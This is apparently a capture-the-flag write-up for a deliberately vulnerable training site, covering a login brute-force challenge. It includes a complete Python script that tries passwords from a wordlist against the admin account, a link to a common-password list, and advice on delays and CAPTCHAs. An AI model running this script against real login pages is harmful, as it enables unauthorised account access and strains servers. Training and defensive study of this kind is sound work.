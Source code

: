 ### Challenge

Well, I already had the flag with the SQLi, but with this script, you can also solve the challenge in this way:

```python
#!/bin/python3

import requests
import argparse
from urllib.parse import urljoin
from signal import signal, SIGINT

YELLOW = "\033[1;33m"
RED = "\033[91m"
GREEN = "\033[92m"
END = "\033[0m"

def parse_arguments():
    parser = argparse.ArgumentParser()
    parser.usage = "./brute_force.py [-hw] URL"
    parser.add_argument("-w", "--wordlist", required=True, help="indicates the wordlist file to use for DNS enumeration.")
    parser.add_argument("URL", help="URL to enum")
    return (parser.parse_args())

def check_password(url, password: str):
    data = f"?page=signin&username=admin&password={password}&Login=Login"
    full_url = urljoin(url, data)
    return requests.get(full_url)

def signalHandler(signum, _):
	if signum == SIGINT:
		print("")
		exit(0)

def getWordlist(arg: str) -> list:
    try:
        with open(arg) as file:
            wordlist: list = file.read().splitlines()
    except:
        print(f"{YELLOW}\nCannot open file: {arg}{END}\n")
        exit(1)	
    return wordlist

def brute_force(url: str, wordlist: list):
    i = 0
    try:
        for password in wordlist:
            response = check_password(url, password)
            if "images/WrongAnswer.gif" not in response.text:
                print(f"{GREEN}Password found: {password}{END}")
                break
            i += 1
            print(f"{i} requests")
    except FileNotFoundError:
        print(f"{RED}No dictionary file provided.{END}")

if __name__ == "__main__":
    signal(SIGINT, signalHandler)
    args = parse_arguments()
    url = args.URL
    wordlist = getWordlist(args.wordlist)
    brute_force(url, wordlist)
```

And you can use a dictionary of the 100 most common passwords, for example: https://github.com/danielmiessler/SecLists/blob/master/Passwords/xato-net-10-million-passwords-100.txt

### Vulnerability

The website's authentication is vulnerable to a brute force attack.
This means that an attacker can easily make repeated requests using password
dictionaries until they find the correct password for the targeted users.

In the context of this website, however, brute-forcing is likely to be infinitely slow for secure passwords
since the script must **wait for the server's response before initiating the next attempt**, which is much slower 
than **brute-forcing in local** a list of hashes obtained, for example, from a SQL injection.
Nevertheless, it may work for the most common passwords.


it's also important to consider the fact that there are tools that allow for very rapid brute-forcing of a website
through the use of multiple simultaneous requests, which can also pose a risk of DDOS for the less protected servers and websites.

This well-known vulnerability is the reason why strong password policies have developed in recent years. 
You can find a graph illustrating the brute-forcing speed based on password complexity (for local brute-forcing) as follows:

![5g3ayy7pwxl51](https://github.com/Sleleu/darkly/assets/93100775/f96760a5-f730-4338-8aa2-d47b4d3809fc)

### How to prevent from brute force

- Make a password authentication delay
- Protect your server against SQLi (this concern local brute-forcing)
- Using CAPTCHAS (But don't abuse of them please)

### Resources

- https://portswigger.net/support/using-burp-to-brute-force-a-login-page
- https://owasp.org/www-community/attacks/Brute_force_attack
- https://owasp.org/www-community/controls/Blocking_Brute_Force_Attacks
